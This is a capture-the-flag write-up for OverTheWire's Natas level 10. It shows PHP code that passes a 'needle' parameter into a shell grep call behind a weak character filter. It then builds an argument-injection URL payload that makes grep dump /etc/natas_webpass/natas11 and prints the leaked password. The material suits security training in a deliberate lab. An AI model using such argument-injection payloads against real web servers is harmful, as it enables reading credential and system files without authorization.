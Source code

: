 # Level 9 - Level 10: Natas - OverTheWire

## Level Goal

Username: natas10
URL:      http://natas10.natas.labs.overthewire.org

## Solution
This level is quite similar to the previous one (08-09), however, the difficulty is increased as we appear to have some filtering going on in the PHP logic:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

This code is the same as before, except for this filter addition which we want to focus on:
```php
 if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
```

Essentially, this code is using the PHP `preg_match` function to match the regex pattern `'/[;|&]/'`. If the `needle` URL parameter contians a character also found in that pattern, we will get the `illegal character!` error message and the command will not execute.

We can use [https://regexr.com](https://regexr.com) to break down the regex if ever unsure, but in this case it's quite straightforward. Any character between the `[]` brackets will be matched, which is `;`, `|`, and `&`. This will obviously make it quite difficult to escape the command, like in the previous level.

With that said, we may be able to accomplish this without escaping the command, and taking advantage of `grep` itself. If we read the manpages of `grep`, we can see that it's actually possible to supply multiple files to the command, and `grep` will search all of them.

So, if we can get `grep` to search for basically everything in the file, and also provide it the `/etc/natas_webpass/natas11` file to search, we can in theory extract the password. To make that search for "everything", we can provide the `-v` flag, which will invert the `grep` command. Now, `grep` is searching for everything *except* for the pattern we provide. So now we can just provide a random pattern that won't match the password, like `12345`.

Next, we just need to provide the `/etc/natas_webpassnatas11` file as the first file argument. Puttng this together, `grep` will return everything *except* for `123456` in both `/etc/natas_webpassnatas11` and `dictionary.txt`.

I also realized, since we're reunning actual calls on the OS, we don't need to do any sort of directory walking (`../../` etc.), and we can just reference `/etc/natas_webpass` for example.

## Exploit payload

The final payload ends up becoming: `http://natas10.natas.labs.overthewire.org/?needle=12345 -v /etc/natas_webpass/natas11`, which, once URL-encoded, looks like: `http://natas10.natas.labs.overthewire.org/?needle=12345%20-v%20/etc/natas_webpass/natas11`

```html
Output:
<pre>
/etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
dictionary.txt:
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
...
...
...
```